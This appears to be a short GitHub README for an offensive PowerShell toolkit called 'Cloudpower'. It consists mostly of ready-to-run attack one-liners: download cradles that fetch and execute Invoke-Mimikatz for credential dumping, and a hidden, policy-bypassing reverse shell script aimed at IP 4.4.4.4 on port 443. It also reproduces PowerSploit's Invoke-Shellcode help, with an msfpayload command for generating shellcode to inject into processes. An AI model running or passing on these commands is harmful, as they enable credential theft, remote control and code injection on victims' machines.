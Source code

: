 # Cloudpower
test for interest


# Help for Invoke-mimi:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-mimi.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
winx86:

powrshell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

# Help for Invoke-Shellcode:
.SYNOPSIS

Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.
PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION

Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre
PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):
msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 
Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID

Process ID of the process you want to inject shellcode into.

.PARAMETER Shellcode

Specifies an optional shellcode passed in as a byte array

.PARAMETER Force

Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

.EXAMPLE

C:\PS> Invoke-Shellcode -ProcessId 4274
Description
-----------
Inject shellcode into process ID 4274.

.EXAMPLE

C:\PS> Invoke-Shellcode
Description
-----------
Inject shellcode into the running instance of PowerShell.

.EXAMPLE

C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)
    
Description
-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
